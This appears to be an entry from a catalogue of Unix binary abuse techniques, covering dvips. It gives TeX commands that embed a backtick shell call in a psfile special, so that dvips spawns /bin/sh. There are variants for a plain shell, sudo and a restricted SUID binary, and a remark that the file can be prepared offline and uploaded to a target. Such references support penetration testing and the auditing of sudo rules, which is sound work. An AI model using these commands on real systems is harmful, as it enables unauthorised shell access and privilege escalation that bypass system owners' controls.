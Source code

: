 description: The `texput.dvi` output file produced by `tex` can be created offline and uploaded to the target.
functions:
  shell:
    - code: |
        tex '\special{psfile="`/bin/sh 1>&0"}\end'
        dvips -R0 texput.dvi
  sudo:
    - code: |
        tex '\special{psfile="`/bin/sh 1>&0"}\end'
        sudo dvips -R0 texput.dvi
  limited-suid:
    - code: |
        tex '\special{psfile="`/bin/sh 1>&0"}\end'
        ./dvips -R0 texput.dvi
---
